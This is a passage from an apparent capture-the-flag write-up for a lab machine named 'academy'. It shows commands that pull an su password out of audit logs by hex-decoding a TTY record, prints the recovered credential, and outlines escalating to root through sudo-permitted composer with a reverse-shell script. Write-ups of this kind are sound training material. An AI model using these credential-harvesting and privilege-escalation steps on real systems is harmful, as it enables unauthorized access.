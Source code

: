 * I grep all `su` commands from `audit logs` and found some intresting data

**Final result**

      cry0l1t3@academy:/var/log/audit$ grep -r -w su | grep data
      audit.log.3:type=TTY msg=audit(1597199293.906:84): tty pid=2520 uid=1002 auid=0 ses=1 major=4 minor=1 comm="su" data=6D7262336E5F41634064336D79210A

      cry0l1t3@academy:/var/log/audit$ grep -r -w su | grep data | awk -F= '{print $11}'
      6D7262336E5F41634064336D79210A

      cry0l1t3@academy:/var/log/audit$ echo $(grep -r -w su | grep data | awk -F= '{print $11}') | xxd -r -p
      mrb3n_Ac@d3my!

* so user with uid=1002 run su with there own password as command input eg. `su mrb3n_Ac@d3my!` thats why this log generated.
* viewing `/etc/passwd` i find out that `UID=1002` belong to user `mrb3n`.

### creds
`mrb3n:mrb3n_Ac@d3my!`

### su to mrb3n
```
cry0l1t3@academy:~$ su - mrb3n
Password: mrb3n_Ac@d3my!
$ bash
mrb3n@academy:~$ whoami;id
mrb3n
uid=1001(mrb3n) gid=1001(mrb3n) groups=1001(mrb3n)
```

# Local Enumeration

* check sudo rights `sudo -l`

      User mrb3n may run the following commands on academy:
          (ALL) /usr/bin/composer

* user mrb3n run `composer` as root

* **Composer** is a tool for dependency management in PHP. It allows you to declare the libraries your project depends on and it will manage (install/update) them for you.

    * First thing first find the [composer documentation](https://getcomposer.org/doc/00-intro.md)
    * form the doc i found that the [composer run scripts](https://getcomposer.org/doc/articles/scripts.md)

    **Note :** Only scripts defined in the composer.json are executed .


## attack surface

* Create a `composer.json` file and inside that file specify `reverse shell` script
    * in the script doc i found composer.json template best for [custom script ececution](https://getcomposer.org/doc/articles/scripts.md#writing-custom-commands)
* run composer and execute the script
